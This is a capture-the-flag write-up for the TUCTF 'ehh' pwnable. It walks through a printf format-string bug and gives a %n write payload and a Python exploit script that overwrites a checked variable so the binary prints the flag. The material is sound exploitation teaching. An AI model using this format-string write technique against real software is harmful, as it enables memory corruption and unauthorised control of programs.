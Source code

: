 # Ahh [Pwnable 433 points]

### Chall's description
```
Difficulty: easy
Whatever... I dunno

nc x.x.x.x 12345
```

#### File given for the chall
* [ehh](./ehh)

## Solution

```
$ file ehh
eeh: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32 .......
```

When executed the code displays the following message:
```
>Input interesting text here< 0x565cb028
```

then, it requires an input from stdin by using the read(0,stack_address, 0x18), and after, printf(stack_address) .. Aaah the old dear format string bug/features..

So now de facto, the address (addr_1) that was previously printed 99,9% means something, start the gdb-peda routine
```
gdb-peda$ checksec 
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : ENABLED
RELRO     : Partial
```
The executable seems to be compiled without canary, and during execution addr_1 is compared to 0x18, and if equals system("/bin/cat flag") is then executed.

So now we should try to write 0x18 to addr_1, by using the printf, for more info about format string vulnerabilities read this interesting 2001's paper: https://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf


```
=> 0x565556ee <main+126>:	call   0x565554b0 <printf@plt>
   0x565556f3 <main+131>:	add    esp,0x10
   0x565556f6 <main+134>:	mov    eax,DWORD PTR [ebx+0x28]
   0x565556fc <main+140>:	cmp    eax,0x18
   0x565556ff <main+143>:	jne    0x56555713 <main+163>
Guessed arguments:
arg[0]: 0xffffd138 ("Hi there\n")
[------------------------------------stack-------------------------------------]
0000| 0xffffd120 --> 0xffffd138 ("Hi there\n")
0004| 0xffffd124 --> 0xffffd138 ("Hi there\n")
0008| 0xffffd128 --> 0x18 
0012| 0xffffd12c --> 0x0 
0016| 0xffffd130 --> 0xf7fa23fc --> 0xf7fa3200 --> 0x0 
0020| 0xffffd134 --> 0x56557000 --> 0x1ef0 
0024| 0xffffd138 ("Hi there\n")
0028| 0xffffd13c ("here\n")
[------------------------------------------------------------------------------]
```

looking the printf stack-view, we note that our string starts at 6th position (ignoring the first arg).
so in this scenario, (addr_1=0x565cb028), the right input, could be:  *\x28\xb0\x5c\x56%24u%6$n*

the printf understands that; print out the string, and write one-byte (value 24) at address *(esp - 6x4). understanding this we can get all the 4 bytes. For some reason %24u doesn't work so instead i used %20u.

We can now write a script, or try all in one line (e.g. if addr_1 is like "0x56623028" , so the input could be; "(0bV%20u%6$n" )

```python
#!/usr/bin/env python`
import sys, itertools, subprocess, struct

def conv(num):
	return struct.pack("<I",num)

def main(args):
	proc=subprocess.Popen(["./ehh"] , stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
	ret=proc.stdout.readline()
	ret=int( ret[ret.find("0x"):].rstrip(), 16)
	buf = conv(ret)
	buf += "%20u%6$n"
	proc.stdin.write(buf + "\n")
	proc.stdin.flush()
	ret=proc.stdout.readlines()
	print(ret)
```

# The Flag:
	TUCTF{pr1n7f_15_pr377y_c00l_huh}

